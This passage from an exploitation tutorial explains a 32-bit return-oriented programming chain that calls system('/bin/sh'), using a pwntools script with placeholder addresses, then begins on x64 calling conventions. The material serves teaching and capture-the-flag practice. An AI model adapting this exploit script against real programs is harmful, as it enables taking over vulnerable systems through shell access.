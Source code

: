 Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [**Ret2lib**](ret2lib/index.html))
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

- Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
- **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
- **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.
